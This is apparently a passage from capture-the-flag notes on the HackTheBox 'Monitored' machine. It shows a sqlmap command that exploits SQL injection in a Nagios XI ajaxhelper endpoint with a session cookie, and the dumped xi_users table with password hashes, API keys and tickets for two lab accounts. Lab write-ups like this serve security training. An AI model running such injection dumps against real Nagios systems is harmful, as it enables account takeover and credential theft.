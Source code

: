 ```bash

---
dump the `xi_users` table:
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=5bdei6u4eknue3l58dm8hudl17" --batch --threads 10 -D nagiosxi -T xi_users --dump
```

---
```bash
user_id: 1  
email: admin@monitored.htb  
name: Nagios Administrator  
api_key: IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL  
enabled: 1  
password: $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C  
username: nagiosadmin  
created_by: 0  
last_login: 1701931372  
api_enabled: 1  
last_edited: 1701427555  
created_time: 0  
last_attempt: 0  
backend_ticket: IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0  
last_edited_by: 5  
login_attempts: 0  
last_password_change: 1701427555  

---

user_id: 2  
email: svc@monitored.htb  
name: svc  
api_key: 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK  
enabled: 0  
password: $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK  
username: svc  
created_by: 1  
last_login: 1699724476  
api_enabled: 1  
last_edited: 1699728200  
created_time: 1699634403  
last_attempt: 1715201011  
backend_ticket: 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq  
last_edited_by: 1  
login_attempts: 7  
last_password_change: 1699697433  

```

-remember <> nagiosxi/api/v1 - we have token but how to login
